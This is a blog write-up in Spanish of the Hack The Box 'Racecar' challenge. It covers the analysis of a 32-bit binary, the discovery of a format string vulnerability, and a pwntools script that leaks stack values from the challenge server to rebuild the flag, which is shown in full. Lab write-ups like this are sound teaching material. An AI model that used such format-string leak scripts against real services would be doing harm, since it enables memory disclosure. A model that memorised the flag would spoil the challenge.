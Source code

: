 ```yaml
---
title: Racecar
description: Did you know that racecar spelled backwards is racecar? Well, now that you know everything about racing, win this race and get the flag!
date: 2024-07-02
toc: true
pin: false
image:
 path: /assets/img/htb-writeup-challenges/pwd_logo.png
categories:
  - Hack The Box
  - Challenges
tags:
  - hack the box
  - pwd
  - format string attack

---
```

## Information Gathering

```terminal
/home/kali/Documents/htb/challenges/racecar:-$ unzip racecar.zip
racecar
```

Dentro del '.zip', encuentro unicamente un ejecutable 'racecar'.

```terminal
/home/kali/Documents/htb/challenges/racecar:-$ file racecar
racecar: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically 
linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, 
BuildID[sha1]=c5631a370f7704c44312f6692e1da56c25c1863c, not stripped
```

```terminal
/home/kali/Documents/htb/challenges/racecar:-$ ./racecar
```

![](/assets/img/htb-writeup-racecar/racecar1.png)

Basicamente, el juego consiste en eleigr entre las distintas opciones para ganar.

Las opciones ganadoras son el auto 1 y la carrera 2, o el auto 2 y la carrera 1.

Cuando ganas, te permite ingresar caracteres y luego vuelve a imprimirlos.

<https://dogbolt.org/>

![](/assets/img/htb-writeup-racecar/racecar2.png)

Analizando el código, encuentro que es vulnerable a un 'format string attack', como se indica en la línea 577 de 'Ghidra'. 

También requiere un archivo llamado 'flag.txt', como se indica en la línea 566 de 'Ghidra'.

---

## Vulnerability Exploitation

Creé un archivo 'flag.txt' y agregué algunos datos que serían fáciles de identificar en formato hexadecimal, en este caso ‘A’.

```terminal
/home/kali/Documents/htb/challenges/racecar:-$ echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' > flag.txt
```

Después de hacer esto, volví a correr el ejecutable y esta vez, después de ganar la carrera, pasé '%p' varias veces como dato.

<https://owasp.org/www-community/attacks/Format_string_attack>

```terminal
/home/kali/Documents/htb/challenges/racecar:-$ ./racecar

--------------------------------------------------------
      ______                                       |xxx|
     /|_||_\`.__                                   | F |                                                                             
    (   _    _ _\                                  |xxx|                                                                             
*** =`-(_)--(_)-'                                  | I |                                                                             
                                                   |xxx|                                                                             
                                                   | N |                                                                             
                                                   |xxx|                                                                             
                                                   | I |                                                                             
                                                   |xxx|                                                                             
             _-_-  _/\______\__                    | S |                                                                             
           _-_-__ / ,-. -|-  ,-.`-.                |xxx|                                                                             
            _-_- `( o )----( o )-'                 | H |                                                                             
                   `-'      `-'                    |xxx|                                                                             
--------------------------------------------------------                        
                                                                                                                                     
Insert your data:                                                                                                                    
                                                                                                                                     
Name: name                                                                                                                           
Nickname: nick                                                                                                                  
                                                                                                                                     
[+] Welcome [name]!                                                                                                                  
                                                                                                                                     
[*] Your name is [name] but everybody calls you.. [nick]!                                                                       
[*] Current coins: [69]

1. Car info
2. Car selection
> 2
                                                                                                                                   
Select car:                                                                                                                          
1.
2.
> 2

Select race:                                                                                                                         
1. Highway battle                                                                                                                    
2. Circuit                                                                                                                           
> 1                                                                                                                                  
                                                                                                                                     
[*] Waiting for the race to finish...                                                                                                
                                                                                                                                     
[+] You won the race!! You get 100 coins!                                                                                            
[+] Current coins: [169]                                                                                                             
                                                                                                                                     
[!] Do you have anything to say to the press after your big victory?                       
> %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p

The Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this: 
0x5725b200 0x170 0x56639dfa 0x60 0x6 0x26 0x2 0x1 0x5663a96c 0x5725b200 0x5725b380 0x41414141 0x41414141 0x41414141 0x41414141 0x41414141 0x41414141 0x41414141 0x41414141 0x41414141 0x41414141 0x414141 0x98fb6500 (nil) 0x5663cf8c 0xffb88558
```

Desconozco la posición de la variable que contiene el valor de la bandera en el 'stack', así que llevaré a cabo fuzzing en el 'stack' hasta que logre filtrar la flag.

Y para hacer eso es necesario el siguiente script.


```python
from pwn import *

flag = ''

# Let's fuzz x values
for i in range(100):
    try:
        # Connect to server
        io = remote('83.136.253.251', 42831)
        io.sendlineafter(b'Name: ', b'anas')
        io.sendlineafter(b'Nickname: ', b'something')
        io.sendlineafter(b'> ', b'2')
        io.sendlineafter(b'> ', b'2')
        io.sendlineafter(b'> ', b'1')
        # Format the counter
        # e.g. %i$p will attempt to print [i]th pointer (or string/hex/char/int)
        io.sendlineafter(b'> ', '%{}$p'.format(i).encode())
        # Receive the response
        io.recvline()
        io.recvline()
        result = io.recv()
        if not b'nil' in result:
            print(str(i) + ': ' + str(result))
            try:
                # Decode, reverse endianess and print
                decoded = unhex(result.strip().decode()[2:])
                reversed_hex = decoded[::-1]
                print(str(reversed_hex))
                # Build up flag
                flag += reversed_hex.decode()
            except BaseException:
                pass
    except EOFError:
        pass

# Print and close
info(flag)
io.close()
```

```terminal
/home/kali/Documents/htb/challenges/racecar:-$ python3 exp.py

[+] Opening connection to 94.237.53.113 on port 56321: Done
12: b'0x7b425448\n'
b'HTB{'
[+]
13: b'0x5f796877\n'
b'why_'
[+]
14: b'0x5f643164\n'
b'd1d_'
[+]
15: b'0x34735f31\n'
b'1_s4'
[+] 
16: b'0x745f3376\n'
b'v3_t'
[+]
17: b'0x665f3368\n'
b'h3_f'
[+]
18: b'0x5f67346c\n'
b'l4g_'
[+]
19: b'0x745f6e30\n'
b'0n_t'
[+]
20: b'0x355f3368\n'
b'h3_5'
[+]
21: b'0x6b633474\n'
b't4ck'
[+]
22: b'0x7d213f\n'
b'?!}'
```

HTB{why_d1d_1_s4v3_th3_fl4g_0n_th3_5t4ck?!}

> <a href="https://www.hackthebox.com/achievement/challenge/1521382/242" target="_blank">Racecar Challenge from Hack The Box has been Pwned</a>
{: .prompt-tip }
